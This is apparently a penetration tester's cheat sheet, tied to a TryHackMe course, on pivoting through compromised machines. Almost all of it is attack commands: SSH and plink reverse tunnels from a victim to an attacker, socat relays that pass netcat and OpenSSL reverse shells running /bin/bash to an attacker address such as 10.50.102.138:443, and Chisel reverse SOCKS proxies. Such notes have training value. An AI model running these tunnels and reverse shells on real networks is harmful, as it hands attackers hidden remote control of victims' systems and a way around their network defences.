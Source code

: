 ## pivot:
-  from on machine to another
-  tunnelling/proxying: route all traffic (a lot of traffic)
-  port forwarding: create connection (few ports)
-  ProxyChain

### ssh
- Port Forwarding
  - ssh -L [myport]:target:[open_port_target] user@[public_ip] -fN
- Proxy
  - ssh -D PORT user@[public_ip] -fN
- create key pair on the attacking machine
- transfer private key to victim
- stablish connection from victim to attacking
  - ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
  - executing on we habe the shell

### plink.exe
- command line for putty
- cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
- convert key with puttygen: puttygen key -o xxx.ppk

### socat
- Reverse shell
  - listener on the attacker
  - relay on compromised: ./socat tcp-l:8000 tcp:Attacker-IP:443 &
  - create reverse shell from compromised to attacker: nc localhost 8000 -e/bin/bash

- Port Forwarding - Method 1
  - open port on victim + redirect to target server = ./socat tcp-l:[port_on_victim],fork,reuseaddr tcp:[target_ip]:3306 &

- Method 2 -Quieter - read more about that https://tryhackme.com/room/wreath: 
  - Attacker, opens to ports: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
  - victim: ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
- on victim: ./socat tcp-l:8000 tcp:10.50.102.138:443 & => connect victim back to us on port 443
- on victim: ./nc 127.0.0.1 8000 -e /bin/bash ==> listen to port 8000 
- Port Forwarding [From_Compromised_to_TARGET]: ./socat tcp-l:[port_on_compromised],fork,reuseaddr tcp:[IP_Target]:3306 &

- Encrypted:
  - Create certificate: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
  - merge keys: cat shell.key shell.crt > shell.pem
  - listener: socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
  - connect back: socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
 close all:
  - jobs ==> find socats processes 
  
### Chisel
- set up tunnel proxy / port forward
- client / server 
- Reverse SOCKS Proxy
  - server: chisel server -p [port] --reverse &
  - client (victim0): ./chisel client [attacker]:8005 R:socks &
    - R = remote, client knows that server antecipate proxy
- Forward SOCK Proxy
  - victim: ./chisel server -p LISTEN_PORT --socks5
  - attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
- Port Forward
  - attacker: ./chisel server -p LISTEN_PORT --reverse &
  - victim to target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &